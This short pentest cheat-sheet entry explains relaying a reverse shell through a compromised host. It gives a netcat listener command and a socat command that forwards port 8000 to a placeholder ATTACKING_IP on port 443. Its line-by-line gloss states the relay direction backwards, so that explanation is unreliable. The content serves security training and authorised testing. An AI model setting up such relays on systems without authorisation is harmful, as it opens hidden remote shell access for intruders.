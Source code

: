 # ⭕ Socat Reverse Shell Relay

### **Reverse Shell Relay**

Using socat we can create a relay for us to send a reverse shell back to our own attacking machine.

```
#on attacker
sudo nc -lvnp 443

#on target
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &
```

> **Line 2:** Start a netcat listener on port 443.
>
> **Line 5:** Using socat, relay port 443 to our local machine on port 8000.
>
> **&:** Backgrounds the application.

{% hint style="info" %}
Make sure to open the listening port first, then connect back to the attacking machine
{% endhint %}

